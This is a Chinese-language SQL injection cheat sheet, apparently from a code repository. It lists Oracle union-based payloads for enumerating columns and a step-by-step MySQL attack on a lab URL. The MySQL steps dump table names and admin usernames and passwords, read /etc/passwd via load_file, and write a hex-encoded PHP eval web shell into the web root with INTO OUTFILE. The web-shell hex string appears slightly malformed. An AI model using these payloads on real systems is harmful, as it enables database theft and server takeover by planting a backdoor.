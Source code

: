 ```
and 1=2 union select 1,2,(select column_name from user_tab_columns where table_name='tablename' and rownum=1),4,5,6 from dual

依次下一个字段名

and 1=2 union select 1,2,(select column_name from user_tab_columns where table_name='tablename' and column_name<>'first_col_name' and rownum=1),4,5,6 from dual

若为基于时间或者基于bool类型盲注，可结合substr 、ASCII进行赋值盲测。

若屏蔽关键函数，可尝试SYS_CONTEXT('USERENV','CURRENT_USER')类用法。
```

Mysql

```
#正常语句

192.168.192.128/sqltest/news.php?id=1

#判断存在注入否

192.168.192.128/sqltest/news.php?id=1 and 1=2

#确定字段数 order by

192.168.192.128/sqltest/news.php?id=-1 order by 3

#测试回显字段

192.168.192.128/sqltest/news.php?id=-1 union select 1,2,3

#测试字段内容

192.168.192.128/sqltest/news.php?id=-1 union select 1,user(),3

192.168.192.128/sqltest/news.php?id=-1 union select 1,group_concat(user(),0x5e5e,version(),0x5e5e,database(),0x5e5e,@@basedir),3

#查询当前库下所有表

192.168.192.128/sqltest/news.php?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()

#查询admin表下的字段名（16进制）

192.168.192.128/sqltest/news.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x61646d696e

#查询admin表下的用户名密码

192.168.192.128/sqltest/news.php?id=-1 union select 1,2,group_concat(name,0x5e,pass) from admin

#读取系统文件（/etc/passwd，需转换为16进制）

192.168.192.128/sqltest/news.php?id=-1 union select 1,2,load_file(0x2f6574632f706173737764)

#文件写入

192.168.192.128/sqltest/news.php?id=-1 union select 1,2,0x3c3f70687020a6576616c28245f504f53545b615d293ba3f3e into outfile '/var/www/html/1.php'--

PS：若权限不足，换个目录
```
